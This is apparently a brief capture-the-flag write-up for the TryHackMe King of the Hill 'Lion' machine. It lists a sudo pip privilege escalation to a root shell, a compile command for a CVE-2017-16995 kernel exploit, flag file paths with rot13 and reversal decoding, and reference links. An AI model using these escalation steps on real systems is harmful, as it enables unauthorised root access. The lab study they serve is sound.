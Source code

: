 `alex` can run `pip3` as root via sudoers. doing the following will start a root shell, with no screen feedback. careful typing can create a suid sh binary or similar
```
```


```bash
TF=$(mktemp -d)
echo "import pty; pty.spawn('/bin/bash')" > $TF/setup.py
sudo pip install $TF
```


CVE-2017-16995
```bash
gcc --static cve-2017-16995.c -o cve-2017-16995 && chmod +x cve-2017-16995
```

#### Flags

```
/root/king.txt
tac /home/marty/user.txt #  reversed
/home/gloria/user.txt 
cat /home/alex/user.txt | tr '[A-Za-z]' '[N-ZA-Mn-za-m]' # rot13
/root/.flag

random high port: thm
user table in the blog database
```
#### References

https://www.reddit.com/r/linux4noobs/comments/xnogal/how_to_decode_rot13_using_tr_command/
https://github.com/Machinh/Koth-THM/blob/main/LION
https://github.com/holmes-py/King-of-the-hill?tab=readme-ov-file#machine-name-lion
https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-lion.md